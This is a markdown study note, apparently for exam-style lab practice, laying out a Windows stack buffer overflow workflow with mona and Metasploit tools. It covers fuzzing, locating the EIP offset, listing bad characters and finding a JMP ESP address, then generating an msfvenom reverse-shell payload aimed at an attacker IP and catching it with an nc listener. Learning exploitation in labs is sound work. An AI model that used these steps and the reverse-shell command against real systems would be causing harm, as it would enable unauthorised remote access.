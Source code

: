 # Buffer Overflow Notes 

If you already know the steps, refer to [[instant-bof.md]]

Required File:
[[fuzzer.md]]
[[exploit.md]]

## Steps

1. Set Base Directory
`!mona config -set workingfolder C:\mona\%p`

2. Search offset using `fuzzer.py`

3. Create Pattern using `msf-pattern_create`
`msf-pattern_create -l *offset*`

4. Change **payload** variable on `exploit.py` to pattern and run script

5. after using script, application should crash, use mona to find real offset. Real offset on EIP offset after running mona
`!mona findmsp -distance *offset*`

6. change **offset** variable to real offset, change **retn** variable to `BBBB`. run script, EIP should be `42424242`

7. Generate badchar on mona. Required to use mona compare 
`!mona bytearray -b "\x00"`

8. Change **payload** variable to badchar
```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

9.  run script. view **ESP** address and use mona compare
`!mona compare -f C:\mona\bytearray.bin -a *ESP address*`

10. On mona comparison result, take the first different badchar and remove it from **payload** on python script

11.  Run *step 10* until there is no different badchar on compare

12. Search jump point using mona
`!mona jmp -r esp -cpb *list-badchar*`
example: `!mona jmp -r esp -cpb \x00\x01\x02`

13. Select 1 from the result, and copy address in little endian format
example: if from mona got `12345678`
we should take `\x78\x56\x34\x12`

14. on python script, set **retn** variable to address in little endian format, set **payload** variable to msfvenom result, set padding to `"\x90"*16`
`msfvenom -p windows/shell_reverse_tcp LHOST=*ip* LPORT=4444 EXITFUNC=thread -b "*badchar*" -f python -v payload`
`msfvenom -p windows/shell_reverse_tcp LHOST=10.13.23.168 LPORT=4444 EXITFUNC=thread -b "\x00" -f python -v payload`

15. nc listen
`nc -lvnp 4444`

16. Should got reverse shell. If not, try again from step 1






